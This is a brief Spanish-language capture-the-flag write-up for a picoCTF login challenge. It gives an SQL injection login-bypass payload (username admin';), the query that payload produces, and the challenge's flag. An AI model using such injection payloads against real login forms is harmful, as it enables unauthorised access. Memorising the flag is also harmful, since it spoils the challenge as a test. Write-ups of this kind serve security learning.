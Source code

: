 ## Descripcion
There is a website running at `https://jupiter.challenges.picoctf.org/problem/64649/` ([link](https://jupiter.challenges.picoctf.org/problem/64649/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:64649

## Pistas 
****** 
## Solucion
```sql
--username: admin';
--password: xd
SQL query: SELECT * FROM users WHERE name='admin';' AND password='xd'
```
## bandera
picoCTF{m0R3_SQL_plz_aee925db}

## Notas adicionales 
payloadbox

## Referencias